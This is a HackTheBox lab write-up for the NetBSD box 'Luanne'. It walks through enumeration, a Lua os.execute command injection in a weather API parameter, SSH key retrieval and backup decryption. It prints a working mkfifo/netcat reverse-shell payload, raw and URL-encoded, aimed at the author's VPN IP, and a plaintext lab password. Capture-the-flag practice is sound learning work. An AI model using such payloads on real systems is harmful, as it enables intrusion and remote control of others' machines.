

# [Luanne](https://www.hackthebox.eu/home/machines/profile/302) HackTheBox Writeup


## Pathway


This is the first BSD box I have done , hence through this process I learned more about BSD .  I recommend learning BSD which is similar to linux but it has it's own commands also .  Hence in this box we gain foothold using command injection(**lua**) vulnerability and then we get user's ssh private key and decrypt a file and get root password .


## __First Stage : Enumeration__

Nmap scan results. 


```
# Nmap 7.91 scan initiated Sun Feb  7 20:13:47 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.10.218
Nmap scan report for 10.10.10.218
Host is up, received conn-refused (0.24s latency).
Scanned at 2021-02-07 20:13:48 IST for 1037s
Not shown: 65532 closed ports
Reason: 65532 conn-refused
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.0 (NetBSD 20190418-hpn13v14-lpk; protocol 2.0)
| ssh-hostkey: 
|   3072 20:97:7f:6c:4a:6e:5d:20:cf:fd:a3:aa:a9:0d:37:db (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC1nFqkIP48mPiQbwIS5LLjiwBR+cn31ljUqGmtdlLPEisAgHbcVrGhXbSkUoHHOtUi/qn+yP9SyUHzMDv7WaeKUkmKgFLsin2xiX0VT82nU5RYQ2YTh/WBXeSKEx7g7oMO6L1G3XBJ24Igf3F3z0r3hwjkjAJqtoH27ERq9IUZuvsSlNndjM/Q2G6ZHNwSjqjrS+rddamP91vn0emJZvcDP4tEi3p56isuCB/6I3Gx31ucapzNknY91fZmko6133eIRRpUqnc/Mk3Spv2bMBxhtYHr1FYiwRf1fk9TfdqPWOToA/YzUvXsEGf5EEzVw3FLMdOkJcI8CR3Y510CJ/W+gefPCOs5l1tcqNLJBw1qNBHyzyO0a2Jlm0vU69BiSwpxNyZmLq9QIfPFGHXrw6b0Ul94eFqPzkcxenP+s9N5ZN35TwWJz7MHTrbRY5Rs9iwGZ4zy5F3gSqKWPekNzPESWO+DoJIcgqNzQVplqaOL5yQLQqMJJTudDEUuIqN/1Zk=
|   521 35:c3:29:e1:87:70:6d:73:74:b2:a9:a2:04:a9:66:69 (ECDSA)
| ecdsa-sha2-nistp521 AAAAE2VjZHNhLXNoYTItbmlzdHA1MjEAAAAIbmlzdHA1MjEAAACFBAFlwEzim2pzpW7PYcDQB8EQCWPSUxYMK/Tv0fgtPIMkiLepeDQ2WTEdtBnAGRg0CBp6MRM8RR6M+dUeMy9Zm02hpgFjEjNrcXstpm2mS+8axgwxoT2A5F/hkMms6ckkjfMhdLHom+8ZlHPFcX5MWl1cIIuH+A+RGZuJNb6QpEIvguSV/A==
|   256 b3:bd:31:6d:cc:22:6b:18:ed:27:66:b4:a7:2a:e4:a5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMDw96/CWlrLxN0y9RAm9LU3MPNEJOYbJlzMxzUutOIQ
80/tcp   open  http    syn-ack nginx 1.19.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=.
| http-methods: 
|_  Supported Methods: GET HEAD POST
| http-robots.txt: 1 disallowed entry 
|_/weather
|_http-server-header: nginx/1.19.0
|_http-title: 401 Unauthorized
9001/tcp open  http    syn-ack Medusa httpd 1.12 (Supervisor process manager)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=default
|_http-server-header: Medusa/1.12
|_http-title: Error response
Service Info: OS: NetBSD; CPE: cpe:/o:netbsd:netbsd
```


Hence the open ports are :

* 22
* 80
* 9001

First I visited port 80 .

Webserver  requested for username and password , I tried some common username and passwords , it didn't work .


Hence this shows that there is service running on port 3000 locally on the machine . 


Next I used gobuster .

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://luanne.htb
[+] Threads:        50
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,json,js,txt
[+] Timeout:        10s
===============================================================
2021/02/07 20:27:05 Starting gobuster
===============================================================
/index.html (Status: 200)
/robots.txt (Status: 200)
```

Hence when I visited robots.txt , I got this.





When I visited **/weather** I got 404 . So I used gobuster again but the url was **http://luanne.htb/weather/** .

The results are .

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://luanne.htb/weather/
[+] Threads:        50
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     js,txt,html,php,json
[+] Timeout:        10s
===============================================================
2021/02/07 21:23:51 Starting gobuster
===============================================================
/forecast (Status: 200)
```

So I visited forecast.


Hence I tried 

> http://luanne.htb/weather/forecast?city=list


##  __Second Stage : Initial foothold__

So I we can use this api to our foothold . Hence I tried command injection , nothing worked . Then I remembered the box name and though this was related to **Lua** .

So we have to use os.execute() in order for command injection . I used the following payload and url encoded it  .


> ');os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \<vpn-ip> 4242 >/tmp/f")--


And passed it in url as 

> http://10.10.10.218/weather/forecast?city=%27%29%3Bos.execute%28%22rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7C%2Fbin%2Fsh+-i+2%3E%261%7Cnc+10.10.14.19+4242+%3E%2Ftmp%2Ff%22%29--

I got shell. In that directory I found a hash .


I cracked the hash and got the password for **webapi_user**.


I found a user in home directory called **r.michaels**


## __Third Stage : httpd to r.michaels


After running 

>  netstat -nat | grep LISTEN

I found two ports.

* 3000
* 3001


Hence I tried curl to get what is happening on those ports.

Both of them responded with code 401 (unathorized) , just like the port 80.

Since we got the password of **webapi_user** I tried 

> curl -u webapi_user:\<pass> http://127.0.0.1:3000/


Hence the password was working . I tried many things to get to the user's ssh private key . But nothing worked . With help of a hint from a friend I did this.

> curl -u webapi_user:iamthebest http://localhost:3001/~r.michaels/id_rsa 

I got the private key.


```bash
chmod 600 id_rsa
ssh -i id_rsa r.michaels@luanne.htb
```


## __Fourth Stage : r.michaels to root__


I found a folder called **backups** , in that I found an encrypted file .


Since it is encrypted I first tried using openssl to decrypt but didn't work . Then I found [Netpgp](https://en.wikipedia.org/wiki/Netpgp) which is used in BSD . 


Hence I used 

> netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output /tmp/decrypted.tar.gz


Next I unzipped it using tar

> tar -xvf decrypted.tar.gz


Hence we got another hash I decrypted and used it to sudo su as root , but didn't work.


Hence I searched and got to know about **doas**.


Hence I hope U learned something new through this writeup just like me :)

